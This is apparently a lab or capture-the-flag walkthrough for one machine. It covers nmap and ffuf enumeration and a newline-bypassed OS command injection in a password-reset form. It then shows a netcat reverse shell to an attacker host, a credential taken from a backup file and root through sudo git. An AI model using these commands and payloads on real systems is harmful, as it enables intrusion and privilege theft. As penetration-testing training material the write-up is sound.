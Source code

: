 > Noamro08 - 8 Feb 2024

### Target: 192.168.184.109

---
## Enumeration

nmap scan - default scripts, services, top-1000-ports:
```bash
nmap -Pn -n -A 192.168.184.109 -oN initial.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-08 15:24 IST
Nmap scan report for 192.168.184.109
Host is up (0.076s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: AdminLTE 3 | Dashboard
|_http-server-header: Apache/2.4.38 (Debian)
| http-git: 
|   192.168.184.109:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/ColorlibHQ/AdminLTE.git
|_    Project type: Ruby on Rails web application (guessed from .gitignore)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      32936/udp   mountd
|   100005  1,2,3      41849/tcp6  mountd
|   100005  1,2,3      41985/udp6  mountd
|   100005  1,2,3      54505/tcp   mountd
|   100021  1,3,4      34331/udp6  nlockmgr
|   100021  1,3,4      41473/tcp   nlockmgr
|   100021  1,3,4      46067/tcp6  nlockmgr
|   100021  1,3,4      56514/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs     3-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

full ports:
```bash
nmap -Pn -n -p- 192.168.184.109 -oN all.ports --min-rate=5000 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-08 15:55 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.79% done; ETC: 15:55 (0:00:11 remaining)
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 85.63% done; ETC: 15:55 (0:00:02 remaining)
Nmap scan report for 192.168.184.109
Host is up (0.075s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41473/tcp open  unknown
45259/tcp open  unknown
49415/tcp open  unknown
54505/tcp open  unknown
```

fuzzing dirs with ffuf:
```bash
ffuf -u http://192.168.184.109/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.184.109/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

docs                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 73ms]
pages                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 74ms]
demo                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 73ms]
plugins                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 73ms]
db                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 76ms]
dist                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 77ms]
build                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 71ms]
LICENSE                 [Status: 200, Size: 1082, Words: 155, Lines: 21, Duration: 74ms]
under_construction      [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 74ms]

```

navigating in the main site, nothing interesting was found, checking '/under_construction' directory seems to be login page that needs an email, we can see in the source code of the forgot password page (/under_construction/forgot.php), that 'sendmail.php' "must receive the variable from the html form and send the message"
and that this file does not exist:
![[Pasted image 20240208162031.png]]

also the page says `By clicking "Reset Password" we will send a password reset link`
![[Pasted image 20240208161926.png]]

The behavior of the page reveals that the code is executing commands by passing an argument to the **sendmail.php** page, which does not exist.

## OS command injection

setting up burpsuite and testing this 'reset password' button with test@test.com we can see the body of the captured request contains `email=test%40email.com`. This seems like a good candidate for command injection. Let's include the variable `email` in a GET request and inject `;` followed by the command `id`:
![[Pasted image 20240208163202.png]]
it  doesnt work.

searching online for os command injection bypasses we found this article from [hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection) which recommend using `%0a`:
![[Pasted image 20240208163424.png]]
it works! we have OS command injection.

## initial foothold

now setting up nc listener on port 80 and try to get rev shell:
using the command `nc -c bash 192.168.45.249 80`:
![[Pasted image 20240208163817.png]]
we got a reverse shell.

upgrading the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@UC404:/var/www/html/under_construction$ export TERM=xterm
CTRL ^Z
---
# kali
stty size                                                    
47 189
stty raw -echo; fg
----
# target rev shell
stty rows 47 columns 189
```
<center>fully upgraded shell!</center>

<font color="#92d050">local.txt:</font>
![[Pasted image 20240208164653.png]]

## Privesc:

executing linpeas. sh:
we can see suspicious backup file `/var/backups/sendmail.php.bak`:
in the file we can see the credentials for the user `brian`:
![[Pasted image 20240208170651.png]]
<font color="#92d050">brian: BrianIsOnTheAir789</font>


trying to ssh:
```bash
(kali㉿kali)-[/opt/linux]
└─$ ssh brian@192.168.184.109
```
it works!

checking sudoers file we can see:
```bash
brian@UC404:~$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
```

brian can run git with sudo privileges, from [gtfobins](https://gtfobins.github.io/gtfobins/git/#sudo) we can see there is a way tyo privesc:
```bash
sudo git -p help config
!/bin/sh
```

![[Pasted image 20240208171404.png]]
